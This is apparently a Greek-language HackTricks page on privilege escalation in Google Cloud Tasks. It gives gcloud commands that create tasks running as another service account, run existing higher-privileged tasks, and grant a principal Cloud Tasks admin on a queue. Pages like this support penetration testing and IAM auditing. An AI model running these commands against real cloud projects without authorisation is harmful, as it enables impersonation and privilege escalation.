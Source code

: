 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **παριστάνει άλλους λογαριασμούς υπηρεσιών** δημιουργώντας εργασίες που εκτελούνται με την ταυτότητα του συγκεκριμένου λογαριασμού υπηρεσίας. Αυτό επιτρέπει την αποστολή **επαληθευμένων HTTP αιτημάτων σε υπηρεσίες Cloud Run ή Cloud Functions που προστατεύονται από IAM**.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **εκτελεί υπάρχουσες προγραμματισμένες εργασίες** χωρίς να έχει άδειες στον λογαριασμό υπηρεσίας που σχετίζεται με την εργασία. Αυτό επιτρέπει την εκτέλεση εργασιών που δημιουργήθηκαν προηγουμένως με λογαριασμούς υπηρεσίας υψηλότερης εξουσίας.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
Ο κύριος που εκτελεί αυτή την εντολή **δεν χρειάζεται άδεια `iam.serviceAccounts.actAs`** στον λογαριασμό υπηρεσίας της εργασίας. Ωστόσο, αυτό επιτρέπει μόνο την εκτέλεση υπαρχουσών εργασιών - δεν παρέχει τη δυνατότητα δημιουργίας ή τροποποίησης εργασιών.

### `cloudtasks.queues.setIamPolicy`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί **να παραχωρήσει στον εαυτό του ή σε άλλους κύριους ρόλους Cloud Tasks** σε συγκεκριμένες ουρές, ενδεχομένως κλιμακώνοντας σε `roles/cloudtasks.admin` που περιλαμβάνει τη δυνατότητα δημιουργίας και εκτέλεσης εργασιών.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
Αυτό επιτρέπει στον επιτιθέμενο να παραχωρήσει πλήρη δικαιώματα διαχειριστή Cloud Tasks στην ουρά σε οποιονδήποτε λογαριασμό υπηρεσίας ελέγχουν.

## Αναφορές

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
